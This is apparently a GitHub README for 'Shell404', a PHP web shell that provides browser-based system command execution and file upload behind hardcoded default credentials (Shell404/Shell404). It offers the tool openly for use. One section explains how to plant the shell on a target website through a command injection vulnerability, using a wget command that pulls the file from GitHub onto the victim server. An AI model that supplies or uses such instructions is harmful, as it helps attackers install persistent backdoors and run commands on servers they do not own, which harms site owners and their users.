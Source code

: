 
# Shell404 🛠️

**Shell404** is a simple yet powerful PHP web shell created by [Anon-404](https://github.com/Anon-404). It provides a minimalistic interface for executing system commands and managing file uploads securely, all through your web browser.

## ✨ Features

- ⚙️ **Command Execution**: Run system commands directly from the web interface and view the output.
- 📁 **File Upload**: Safely upload files to the server with a straightforward interface.
- 🔐 **Login Authentication**: Restrict access to authorized users with a username and password system.

## 🔑 Default Login Credentials 

```php
$user = "Shell404";
$pass = "Shell404";
```

## 🚀 Installation

1. 📥 Clone the repository or download the `shell404.php` file.
2. 🚀 Upload `shell404.php` to your server's web directory.
3. 🌐 Access the web shell via your browser by navigating to the file.

## 🛡️ Usage

1. 🌐 Open the web shell in your browser.
2. 🔑 Login using the default credentials:
   - **Username**: Shell404
   - **Password**: Shell404
3. After logging in, you can:
   - ⚙️ **Command Input**: Enter system commands and view the results in real-time.
   - 📁 **File Upload**: Use the file upload feature to transfer files to the server.

## 💻 Direct Download via Command Injection

If the target website has a **command injection vulnerability**, you can easily download the Shell404 web shell using the following command:

```bash
wget https://raw.githubusercontent.com/Anon-404/Shell404/main/Shell404.php
```

This will fetch the `Shell404.php` file from the GitHub repository to the target server, allowing you to access the shell through the browser.

## 🛠️ Customization

You can personalize the default username and password by editing the variables at the top of the `shell404.php` file:

```php
$user = "Shell404";
$pass = "Shell404";
```
